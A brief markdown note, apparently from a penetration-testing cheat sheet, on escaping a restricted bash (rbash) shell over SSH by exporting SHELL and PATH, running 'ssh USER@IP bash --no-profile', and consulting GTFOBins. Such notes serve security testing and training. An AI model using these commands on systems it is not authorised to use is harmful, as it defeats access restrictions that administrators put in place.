 # Breaking out of restricted Bash (rbash) CLI in SSH

## requirements: can run export

### 1) 

    export SHELL=/bin/bash

### 2) 

    export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

### 3) 

    ssh USER@IP 'bash --no-profile'

### 4)

GTFOBins: https://gtfobins.github.io/

